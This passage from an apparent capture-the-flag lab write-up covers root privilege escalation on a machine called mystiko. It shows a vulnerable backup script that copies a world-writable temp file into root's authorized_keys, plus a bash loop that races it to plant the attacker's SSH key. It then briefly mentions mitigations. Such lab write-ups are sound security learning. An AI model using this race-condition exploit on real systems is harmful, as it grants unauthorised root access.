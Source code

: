 This allows us to execute the script as root, without even needing a password. 

![](/assets/images/mystiko/mystiko-44.png)

`/opt/back.sh` seems a custom created script, and the `pixel` user only has the read permission set. 

When reading this file however, it seems oddly familiar somehow...

Due to my lack of social life, I recognised this file from the HTB machine Tenet, which I completed a few months ago. It essentially exploits a race condition in bash, so that we can overwrite a temporary file, while the root `/opt/back.sh` is using it. 

https://0xdf.gitlab.io/2021/06/12/htb-tenet.html#shell-as-root

I'll let the notorious 0xdf explain this one in greater depth, as it seems only fair considering I used his script.

It's worth noting there are one or two slight changes in the new script:

```bash
mystiko=$(/usr/bin/mktemp -u /tmp/mystiko-XXXXXX)
/usr/bin/touch $mystiko;/usr/bin/chmod 777 $mystiko
/usr/bin/echo "backup root public key...."
/usr/bin/echo "[normal key]" > $mystiko
/usr/bin/cat $mystiko > /root/.ssh/authorized_keys
/usr/bin/sleep 1
/usr/bin/echo "backup done."
/usr/bin/rm $mystiko
```

So we will adapt the exploit script to overwrite all temporary files by the name of `/tmp/mystiko-*`. 

```bash
while true; do for file in /tmp/mystiko-*; do echo "[public key from 1st machine: /root/.ssh/id_rsa.pub]" > $file; done; done
```

Running the above bash script from a separate terminal, when we execute `sudo /opt/back.sh`, our public key gets inserted instead of the default key. 

This allows the `root` user on the first machine to SSH into `dev01` without need of a password.

![](/assets/images/mystiko/mystiko-45.png)

From here, all we need to do is read the flag in `/root/proof.txt` to finish the machine.

### Vulnerability Mitigations

#### Foothold
The best advice to fix the code injection vulnerability is to remove the `shell_exec` function with the user input completely.
